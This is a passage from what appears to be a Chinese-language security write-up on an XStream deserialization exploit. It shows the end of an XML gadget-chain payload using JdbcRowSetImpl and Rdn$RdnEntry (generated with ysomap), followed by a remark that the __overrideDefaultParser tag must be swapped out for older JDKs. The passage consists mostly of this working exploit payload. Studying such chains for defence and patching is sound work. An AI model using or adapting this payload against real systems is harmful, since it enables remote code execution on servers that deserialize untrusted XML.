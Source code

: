 ```
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

这次用到的gadget入口点为javax.naming.ldap.Rdn$RdnEntry，在使用该POC之前仍然有一个点是需要注意的，\ <__overrideDefaultParser>这个标签在低版本的jdk中是没有的，需要进行更换。

![](_assets/1617677146000-37.png-w331s.png)
